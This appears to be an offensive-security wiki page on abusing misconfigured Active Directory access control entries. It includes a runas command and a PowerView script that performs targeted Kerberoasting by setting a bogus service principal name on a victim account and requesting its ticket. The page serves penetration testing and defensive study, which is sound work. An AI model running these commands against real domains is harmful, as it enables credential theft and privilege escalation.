 # Access Control Entries \(ACEs\)

## Theory

Access privileges for resources in Active Directory Domain Services are usually granted through the use of an Access Control Entry \(ACE\). Access Control Entries describe the allowed and denied permissions for a principal in Active Directory against a securable object \(user, group, computer, container, organization unit \(OU\), GPO and so on\)

DACLs \(Active Directory Discretionary Access Control Lists\) are lists made of ACEs \(Access Control Entries\).

When misconfigured, ACEs can be abused to operate lateral movement or privilege escalation within an AD domain.

## Practice

{% hint style="info" %}
The attacker needs to be in control of the object the ACE is set on to abuse it and possibly gain control over what this ACE applies to.

The following abuses can only be carried out when running commands as the user the ACE is set on. On Windows systems, this can be achieved with the following command.

```bash
runas /netonly /user:$DOMAIN\$USER
```

All abuses below can be carried out on a Windows system \(the system doesn't even have to be enrolled in the domain\). 

On UNIX-like systems, a few of the following abuses can be carried out. The [aclpwn](https://github.com/fox-it/aclpwn.py) could maybe do the job in most cases. Personally, I always encountered errors and unsupported operations when trying to use it but I will probably do some further tests to include it here.
{% endhint %}

{% hint style="success" %}
Most of [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)'s functions have the `-Credential`, `-Domain` and `-Server` parameters that can be used to explicitly specify the user to run as, the target Domain and and the target Domain Controller. This can be useful when trying to this from a Windows system that isn't enrolled in the AD domain.

Here is an example with targeted Kerberoasting \(see [`GenericAll`](abusing-aces.md#genericall), [`GenericWrite`](abusing-aces.md#genericwrite)\).

```bash
$SecPassword = ConvertTo-SecureString 'pasword_of_user_to_run_as' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('FQDN.DOMAIN\user_to_run_as', $SecPassword)
Set-DomainObject -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' -Identity 'victimuser' -Set @{serviceprincipalname='nonexistant/BLAHBLAH'}
$User = Get-DomainUser -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' 'victimuser'
$User | Get-DomainSPNTicket -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' | fl
```
{% endhint %}
